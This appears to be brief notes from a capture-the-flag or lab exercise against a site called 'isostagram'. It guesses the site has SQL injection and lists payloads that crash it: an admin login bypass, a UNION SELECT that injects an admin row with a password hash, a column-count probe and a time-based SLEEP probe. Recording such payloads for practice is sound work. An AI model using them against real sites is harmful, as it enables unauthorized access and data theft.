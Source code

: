 # isostagram
- its probably sql injection

- these crash the site
admin") or "1"="1"/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
 UNION ALL SELECT NULL#
  ORDER BY 1,SLEEP(5)#
   AS INJECTX WHERE 1=1 AND 1=1